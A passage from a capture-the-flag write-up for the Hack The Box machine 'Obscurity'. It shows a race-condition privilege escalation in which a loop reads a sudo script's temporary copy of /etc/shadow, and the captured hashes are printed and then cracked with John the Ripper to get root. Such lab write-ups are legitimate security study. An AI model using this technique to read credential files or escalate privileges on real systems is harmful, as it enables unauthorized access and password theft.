        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

So it reads `/etc/shadow` and prints the contents to `/tmp/SSH/<random string>`, but then deletes it:  

```console
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: SecThruObsFTW
Traceback (most recent call last):
  File "/home/robert/BetterSSH/BetterSSH.py", line 24, in <module>
    with open('/tmp/SSH/'+path, 'w') as f:
FileNotFoundError: [Errno 2] No such file or directory: '/tmp/SSH/sAA8uSDX'
```

the filename is never really the same (as far as I tested -- I doubt that guessing the filename is the correct answer anyway). So what I think I need to do is somehow read-out the contents while the file exists, before it gets deleted. A while loop seems like the best candidate. 

`while [ true ]; do cat /tmp/SSH/* 2>/dev/null; done`

So now I run that in one shell, and in another I run the `BetterSSH.py` script as `sudo`:

```console
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: test
Enter password: test
Traceback (most recent call last):
  File "/home/robert/BetterSSH/BetterSSH.py", line 24, in <module>
    with open('/tmp/SSH/'+path, 'w') as f:
FileNotFoundError: [Errno 2] No such file or directory: '/tmp/SSH/9C76vjZa'
```

And I couldn't figure out why that wasn't working until I kept it simple stupid. I did not have `/SSH/` in for the script to create the temporary file. After making that, I run it again:

```console
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: asd
Enter password: asd
Invalid user
```

This time I captured some hashes:

```console
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7


robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
```

So, we can probably crack this -- but I am going to back to my local machine to do so:

```console
root@discovery:~/htb/obscurity# vi root.hash 
root@discovery:~/htb/obscurity# cat root.hash 
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
root@discovery:~/htb/obscurity# john -w=/usr/share/wordlists/rockyou.txt root.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)
1g 0:00:00:00 DONE (2020-02-14 18:42) 5.000g/s 2560p/s 2560c/s 2560C/s angelo..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now that I've got a password, I should be able to `su -` to root on the box:

```console
robert@obscure:~/BetterSSH$ su -
Password: 
root@obscure:~# id;cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
512fd4429f33a113a44d5acde23609e3
root@obscure:~# 
```

# Conclusion

This machine was heavy on python. I am not anywhere near the strongest coder, I feel like I have an *okay* grasp at reading it -- but that probably speaks more to my inexperience with what I don't even know. It was a fun box -- I didn't realize it was a medium even until I was finishing this writeup, so I am pretty proud of that. I typically stick with the easy boxes.